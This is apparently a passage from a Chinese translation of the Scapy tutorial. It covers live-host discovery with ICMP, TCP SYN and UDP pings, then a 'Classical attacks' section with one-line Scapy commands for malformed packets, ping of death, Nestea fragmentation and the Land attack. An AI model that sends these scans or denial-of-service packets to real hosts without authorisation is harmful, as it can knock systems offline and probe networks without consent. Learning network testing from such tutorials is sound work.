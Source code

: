 用以下的命令可以收集存活主机的信息：

```shell
>>> ans.summary(lambda (s,r): r.sprintf("%IP.src% is alive") )
```

## TCP Ping

如果 ICMP echo 请求被禁止了，我们依旧可以用不同的 TCP Pings，就像下面的TCP SYN Ping:

```shell
>>> ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
```

对我们的刺探有任何响应就意味着为一台存活主机，可以用以下的命令收集结果：

```shell
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )
```

## UDP Ping

如果其他的都失败了，还可以使用 UDP Ping，它可以让存活主机产生 ICMP Port unreachable错误。你可以挑选任何极有可能关闭的端口，就像端口0：

```shell
>>> ans,unans=sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )
```

同样的，使用以下命令收集结果：

```shell
>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )
```

## Classical attacks

Malformed packets:

```shell
>>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())
```

Ping of death (Muuahahah):

```shell
>>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )
```

Nestea attack:

```shell
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10))
>>> send(IP(dst=target, id=42, frag=48)/("X"*116))
>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))
```

Land attack (designed for Microsoft Windows):

```shell
>>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```
